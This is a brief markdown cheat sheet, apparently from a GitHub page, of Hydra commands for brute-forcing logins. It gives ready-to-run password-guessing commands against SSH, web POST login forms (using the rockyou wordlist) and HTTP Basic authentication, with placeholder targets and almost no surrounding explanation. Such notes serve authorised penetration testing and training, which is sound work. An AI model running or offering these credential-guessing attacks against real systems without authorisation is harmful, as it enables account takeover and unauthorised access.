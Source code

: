 Add `-F` to stop Hydra on the first match
### SSH

```bash
hydra -L users.txt -P pass.txt x.x.x.x ssh -V
```

Using a username and password file, separated by a `:`

```bash
hydra -C pass.txt x.x.x.x ssh -V
```

### Web-Post-Form

```bash
hydra -l kevin -P /opt/rockyou.txt x.x.x.x {-s xxxx} http{s}-post-form "/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -VV -F -I
```

### Basic HTTP Authentication:

```bash
hydra -l kevin -P /opt/rockyou.txt -s <port> <target> http[s]-get /
```

